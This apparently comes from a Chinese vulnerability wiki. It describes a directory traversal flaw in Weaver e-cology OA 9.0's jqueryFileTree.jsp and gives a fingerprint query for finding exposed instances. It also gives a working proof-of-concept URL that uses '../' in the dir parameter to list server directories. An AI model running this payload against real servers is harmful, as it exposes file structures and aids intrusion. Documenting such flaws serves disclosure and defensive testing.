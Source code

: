 # 泛微OA E-Cology jqueryFileTree.jsp 目录遍历漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等，其中  jqueryFileTree.jsp 文件中 dir 参数存在目录遍历漏洞，攻击者通过漏洞可以获取服务器文件目录信息

## 漏洞影响

<a-checkbox checked>泛微e-cology 9.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746-2361681.png)

验证POC

```php
/hrm/hrm_e9/orgChart/js/jquery/plugins/jqueryFileTree/connectors/jqueryFileTree.jsp?dir=/page/resource/userfile/../../
```

![img](/assets/PeiQi-Wiki/img/1662361654117-6a9aece5-41fe-40de-a608-c3be49eb5a48.png)